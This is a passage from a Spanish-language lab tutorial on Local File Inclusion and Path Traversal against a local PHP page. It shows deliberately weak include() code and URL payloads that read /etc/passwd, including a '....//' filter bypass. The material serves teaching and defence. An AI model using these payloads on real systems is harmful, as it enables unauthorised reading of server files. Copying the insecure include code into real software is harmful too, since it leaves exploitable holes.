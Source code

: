 Acción 6: Probamos listar archivos del servidor

```URL
http://localhost/index.php?filename=/etc/passwd
```

Explicación: Comprobamos el funcionamiento de *Local File Inclusion*. Ahora procederemos a sanitizar levemente el archivo index.php y a prácticar *Path Traversal**


## Path Traversal

Acción 1: sanitizamos index.php

```php
<?php
  $filename = $_GET['filename'];
  include("/var/www/html/" . $filename);
?>
```

Acción 2: en la URL no podemos ahora acceder por la vía de antes tenemos que hacer *Path Traversal**

```URL
http://localhost/index.php?filename=../../../../etc/passwd
``` 

Explicación: Con `../../../../` retrocedemos varios directorios para tratar de llegar a la raíz del sistema

Acción 3: sanitización mejor (sigue siendo una chapuza ambas sanitizaciones pero para ejemplificar)

```php
<?php
  $filename = $_GET['filename'];
  $filename = str_replace("../", "", $filename);
  include("/var/www/html/" . $filename);
?>
```

Explicación: con `str_replace` sustituimos `../` por nada `""` por lo que ahora no se podría usar la técnica anterior

Acción 4: hacemos *Path Traversal* más sofisticado

```URL
http://localhost/index.php?filename=....//....//....//....//etc/passwd
```

Explicación: como la sanitización lo que hace es quitar `../` podemos añadir otra tanda más para así volver a llegar al punto anterior y listar la información

Acción 5: nueva sanitización en indext.php - Inclusión de solo archivos .php

```php
<?php
  $filename = $_GET['filename'];
  $filename = str_replace("../", "", $filename);
  include("/var/www/html" . $filename . ".php");
?>
```
